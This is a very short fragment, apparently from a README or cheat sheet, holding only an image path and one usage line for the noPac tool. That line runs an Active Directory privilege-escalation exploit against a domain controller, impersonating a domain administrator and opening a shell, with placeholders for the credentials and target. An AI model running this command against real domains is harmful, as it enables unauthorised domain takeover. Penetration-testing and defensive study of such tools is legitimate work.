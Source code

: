 `python noPac.py <CASE_SENSITIVE_DOMAIN_FQDN>/<USER>:<PASSWORD> -dc-ip <DC_IP> -shell --impersonate <DOMAIN_ADMIN_USER> -use-ldap`
